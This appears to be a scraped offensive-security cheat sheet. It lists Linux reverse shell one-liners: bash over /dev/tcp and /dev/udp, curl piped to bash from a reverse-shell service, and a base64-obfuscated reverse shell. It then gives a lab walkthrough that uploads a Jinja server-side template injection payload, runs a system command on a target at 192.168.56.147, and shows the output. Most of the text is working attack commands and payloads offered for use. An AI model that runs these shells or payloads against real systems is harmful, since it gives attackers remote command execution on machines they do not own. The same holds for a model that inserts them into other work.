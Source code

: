 [Reverse Shells - Linux](https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/linux)

[**#Bash | sh**]

```bash
curl https://reverse-shell.sh/1.1.1.1:3000 | bash
bash -i >& /dev/tcp/<ATTACKER-IP>/<PORT> 0>&1
bash -i >& /dev/udp/127.0.0.1/4242 0>&1 #UDP
0<&196;exec 196<>/dev/tcp/<ATTACKER-IP>/<PORT>; sh <&196 >&196 2>&196
exec 5<>/dev/tcp/<ATTACKER-IP>/<PORT>; while read line 0<&5; do $line 2>&5 >&5; done

#Short and bypass (credits to Dikline)
(sh)0>/dev/tcp/10.10.10.10/9091
#after getting the previous shell to get the output to execute
exec >&0
```
Don't forget to check with other shells: sh, ash, bsh, csh, ksh, zsh, pdksh, tcsh, and bash.

[**#Symbol safe shell**]

```bash
#If you need a more stable connection do:
bash -c 'bash -i >& /dev/tcp/<ATTACKER-IP>/<PORT> 0>&1'

#Stealthier method
#B64 encode the shell like: echo "bash -c 'bash -i >& /dev/tcp/10.8.4.185/4444 0>&1'" | base64 -w0
echo bm9odXAgYmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjQuMTg1LzQ0NDQgMD4mMScK | base64 -d | bash 2>/dev/null
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`vim ./html_python_request.txt`:
```http
-----------------------------156927482725802177751080524724
Content-Disposition: form-data; name="file"; filename="python_test.html"
Content-Type: text/html

<html>
	<body>
		{{ get_flashed_messages.__globals__.__builtins__.eval("__imp"+"ort__('subprocess').check_output('which nc', shel"+"l=True).decode('utf-8')") }}
	</body>
</html>

-----------------------------156927482725802177751080524724--
```

`curl -X POST http://192.168.56.147:5000/ --data-binary @html_python_request.txt --header "Content-Type: multipart/form-data; boundary=---------------------------156927482725802177751080524724"`:
```html
[...]

    <h3>Error: Command &#39;which nc&#39; returned non-zero exit status 1.</h3> ←

[...]
```
